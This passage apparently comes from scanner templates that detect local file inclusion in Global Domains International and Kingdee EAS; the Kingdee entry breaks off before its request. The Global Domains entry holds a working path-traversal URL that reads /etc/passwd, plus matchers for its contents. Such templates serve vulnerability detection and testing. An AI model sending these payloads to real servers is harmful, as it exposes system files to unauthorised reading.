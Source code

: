 - regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Global Domains International - Local File Inclusion

## Description

- Global Domains International is vulnerable to local file inclusion.
- severity - high
- tags - globaldomains,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/kvmlm2/index.dhtml?fname=&language=../../../../../../../../../../etc/passwd%00.jpg&lname=&sponsor=gdi&template=11

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Kingdee EAS - Local File Inclusion

## Description

- Kingdee EAS OA server_file is vulnerable to local file inclusion and can allow attackers to obtain sensitive server information.
- severity - high
- tags - kingdee,lfi,traversal

## Requests
